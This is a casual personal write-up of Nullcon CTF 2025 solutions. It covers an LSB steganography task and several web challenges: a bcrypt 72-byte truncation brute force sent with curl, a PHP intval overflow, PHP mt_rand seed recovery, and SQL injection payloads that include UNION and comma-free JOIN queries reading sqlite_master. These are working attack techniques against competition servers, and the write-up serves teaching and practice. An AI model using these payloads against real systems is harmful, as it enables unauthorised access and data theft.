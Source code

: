 ```yaml
---
title: "Nullcom CTF 2025"
date: 2025-02-02T22:22:00+08:00
description: "camellia - speedrun"
categories: CTF
---
```


dude i was doing ECTF prior to this and didnt see this ctf coming up literally hours after\
i was wondering why i dont see big names on ECTF leaderboard but after solving i realized the reason was chals were abysmally bad there\
i sacrificed a good(?) ctf for a garbage ctf ts pmo

so anyways this became a "how many chals can i solo solve in 4 hours" challenge! (it was 9)\
just kidding i focused on web (some chals im too lazy to explain)

# misc
## Profound thought
we're given an image named `l5b245c11.png`, which is just **LSB to ASCII** in leet\
[doing so](https://stylesuxx.github.io/steganography/) reveals that the image is embedded fully with the flag **`ENO{57394n09r4phy_15_w4y_c00l3r_7h4n_p0rn06r4phy}`**

# web
## Bfail
> To 'B' secure or to 'b' fail? Strong passwords for admins are always great, right?

### analyzing
to get through the login, we need to pass 3 checks:
- username needs to be `admin`
- length of password is less than 128
- password must match **admin's hashed password** through bcrypt

for the last check, we can see a very clear hint in the source code:
```py
# This is super strong! The password was generated quite securely. Here are the first 70 bytes, since you won't be able to brute-force the rest anyway...
# >>> strongpw = bcrypt.hashpw(os.urandom(128),bcrypt.gensalt())
# >>> strongpw[:71]
# b'\xec\x9f\xe0a\x978\xfc\xb6:T\xe2\xa0\xc9<\x9e\x1a\xa5\xfao\xb2\x15\x86\xe5$\x86Z\x1a\xd4\xca#\x15\xd2x\xa0\x0e0\xca\xbc\x89T\xc5V6\xf1\xa4\xa8S\x8a%I\xd8gI\x15\xe9\xe7$M\x15\xdc@\xa9\xa1@\x9c\xeee\xe0\xe0\xf76'
app.ADMIN_PW_HASH = b'$2b$12$8bMrI6D9TMYXeMv8pq8RjemsZg.HekhkQUqLymBic/cRhiKRa3YPK'
```

well, we need to bruteforce, but how?\
let's check the [documentation for bcrypt](https://github.com/pyca/bcrypt):
> **Maximum Password Length**\
> The bcrypt algorithm only handles passwords up to **72 characters**, any characters beyond that are **ignored**.

### payload
since we know the first 71 characters, we only need to brute for the last character, which shouldn't be a problem!
{{< code language="py" source="code/bfail.py" >}}
submitting the form we can realize POST requests are invalid, and that it only accepts GET requests from source\
so let's curl instead:
```
curl -X GET "http://52.59.124.14:5013/" \
> -H "Content-Type: application/x-www-form-urlencoded" \
> -d "username=admin&password=%EC%9F%E0a%978%FC%B6%3AT%E2%A0%C9%3C%9E%1A%A5%FAo%B2%15%86%E5%24%86Z%1A%D4%CA%23%15%D2x%A0%0E0%CA%BC%89T%C5V6%F1%A4%A8S%8A%25I%D8gI%15%E9%E7%24M%15%DC%40%A9%A1%40%9C%EEe%E0%E0%F76%AA"
```
> Congrats! It appears you have successfully bf'ed the password. Here is your **`ENO{BCRYPT_FAILS_TO_B_COOL_IF_THE_PW_IS_TOO_LONG}`**

## Numberizer
we need to input 4 integers with minimum length 4 that sums up to be negative\
```php
if(!isset($_POST['numbers'][$i]) || strlen($_POST['numbers'][$i])>4 || !is_numeric($_POST['numbers'][$i])) {
    continue;
}
$the_number = intval($_POST['numbers'][$i]);
if($the_number < 0) {
    continue;
}
```
as our inputs must be a number and cannot be negative, i thought of integer overflowing into the negatives\
conveniently php allows us to use scientific notations for large integers, like `9e99`\
that's already enough for 64-bit maximum! after inputting, we get:
> You win a flag: **`ENO{INTVAL_IS_NOT_ALW4S_P0S1TiV3!}`**

## Sess.io
we sign up and we get a randomized token with part of flag as seed, choosing 1 of the 38 characters\
a simple search gives us [this tool](https://github.com/openwall/php_mt_seed), and so i generated the input to the solver:\
```py
alpha = 'abcdefghijklmnopqrstuvwxyz0123456789_-'
session = '8bwxvicb2ogv1_3akeawjg...' #you only need like 20 or so characters

res = ''
for c in session:
	res += f'{alpha.find(c)} {alpha.find(c)} 0 {str(len(alpha)-1)}'
print(res)
```
the segment we get depends on the 1st char of name + password, so we need to brute for each number:
| flag | token | name+password | md5 1st |
| ---- | ----- | ------------- | ------- |
| `ENO{` | `8bwx..` | `loveofthesun` | 0 |
| `SOME` | `sc_0..` | `sadhappiness` | 1 |
| `_SUP` | `g1c..` | `darklight` | 2 |
| `ER_S` | `0po4..` | `nothingsleft` | 3 |
| `ECUR` | `9fvv..` | `lovenot` | 4 |
| `E_FL` | `thw9343..` | `stopgo` | 5 |
| `AG_1` | `8esm..` | `wedigress` | 6 |
| `3333` | `d5k2..` | `stoppeace` | 7 |
| `37_H` | `u78..` | `rightwrong` | 8 |
| `ACK}` | `a-jt..` | `soundsilence` | 9 |
concatenated we get **`ENO{SOME_SUPER_SECURE_FLAG_1333337_HACK}`**

## Paginator
we can send queries to a sqlite database through the URL\
doing a source looky, we can sense a sql injection as our inputs are directly inserted inside:
```php
$q = "SELECT * FROM pages WHERE id >= $min AND id <= $max"; 
```
so lets just inject `1=1` to make the statement always true!\
`?p=2,10+OR+1=1` gives us our flag with ID 1:\
> Flag (ID=1) has content: **"RU5Pe1NRTDFfVzF0aF8wdVRfQzBtbTRfVzBya3NfU29tZUhvdyF9"**\
decoding from b64, we get **`ENO{SQL1_W1th_0uT_C0mm4_W0rks_SomeHow!}`**

## Paginator 2
now our flag is at another table!\
to peek another table we can use UNION to execute extra queries, which we can use to leak the table name\
...except i guessed the table name `flag` instead by `?p=2,10+UNION+SELECT+*+FROM+flag`
> Flag (ID=1) has content: **"RU5Pe1NRTDFfVzF0aF8wdVRfQzBtbTRfVzBya3NfU29tZUhvd19BZ0Exbl9BbmRfQWc0MW4hfQ=="**\
but how do we solve it without guessing?

### doing it the Right way
naively i did `UNION SELECT * FROM sqlite_master`, but the server threw this error:\
`Fatal error: Uncaught Error: Call to a member function fetchArray() on **false** in /var/www/html/index.php`\
our query errored it returned a false boolean instead... why?

notice the number of columns in both tables:\
- from part 1 we know pages has **(id, title, content)**\
- sqlite_master has **(type, name, tbl_name, rootpage, sql)**\
as UNION query combines our tables into one single result, both table must have same number of columns, but our query doesn't

but can we use commas to select specific columns instead?\
no, because the server splits our queries by commas\
and even if that worked, we will end up returning 3+ things, and the server only gets first 2 values:
```php
[$min, $max] = explode(",",$_GET['p']);
```

referring to [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md#no-comma-allowed), we can use JOIN to create a "custom table" that has 3 columns including the table names\
`?p=2,10+UNION+SELECT+*+FROM+(SELECT+id+FROM+pages)+JOIN+(SELECT+title+FROM+pages)+JOIN+(SELECT+name+FROM+sqlite_master)`\
(note that you can't ask for table names in 1st field because field types must match)

doing so gives a b64 string decoding to **`ENO{SQL1_W1th_0uT_C0mm4_W0rks_SomeHow_AgA1n_And_Ag41n!}`**